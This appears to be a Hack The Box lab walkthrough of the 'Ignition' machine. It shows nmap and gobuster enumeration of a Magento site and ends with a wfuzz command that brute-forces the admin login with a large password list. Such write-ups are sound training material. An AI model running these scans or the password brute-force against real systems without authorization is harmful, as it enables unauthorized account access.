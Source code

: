 ```yaml
---
title: Ignition - A HackTheBox machine
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
---
```



# Ignition, a Hack The Box Machine


```bash
nmap -sC -sV $ip -Pn
```

Adding ignition.htb to /etc/hosts

Enumerating:
```bash
dir -u http://ignition.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt  -t 40
```

Browsing found files and gathering information:

```
/home                 (Status: 200) [Size: 25802]
/contact              (Status: 200) [Size: 28673]
/media                (Status: 301) [Size: 185] [--> http://ignition.htb/media/]
/0                    (Status: 200) [Size: 25803]
/static               (Status: 301) [Size: 185] [--> http://ignition.htb/static/]
/catalog              (Status: 302) [Size: 0] [--> http://ignition.htb/]
/admin                (Status: 200) [Size: 7095]
/Home                 (Status: 301) [Size: 0] [--> http://ignition.htb/home]
/setup                (Status: 301) [Size: 185] [--> http://ignition.htb/setup/]
/checkout             (Status: 302) [Size: 0] [--> http://ignition.htb/checkout/cart/]
/robots               (Status: 200) [Size: 1]
/wishlist             (Status: 302) [Size: 0] [--> http://ignition.htb/customer/account/login/referer/aHR0cDovL2lnbml0aW9uLmh0Yi93aXNobGlzdA%2C%2C/]    
/soap                 (Status: 200) [Size: 391]
```

Knowing this we could do a more precise enumeration with:

```bash
gobuster dir -u http://ignition.htb -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/CMS/sitemap-magento.txt  
```

From /admin we get to a login panel of a Magento application. From /setup we obtain the Magento version: Version dev-2.4-develop.



Brute forcing it:

```bash
wfuzz -c -z file,/usr/share/wordlists/SecLists-master/Passwords/Common-Credentials/10-million-password-list-top-100000.txt -d "login%5Busername%5D=admin&login%5Bpassword%5D=FUZZ" http://ignition.htb/admin
```

Enter in /admin with credentials. Flag is in the dashboard.
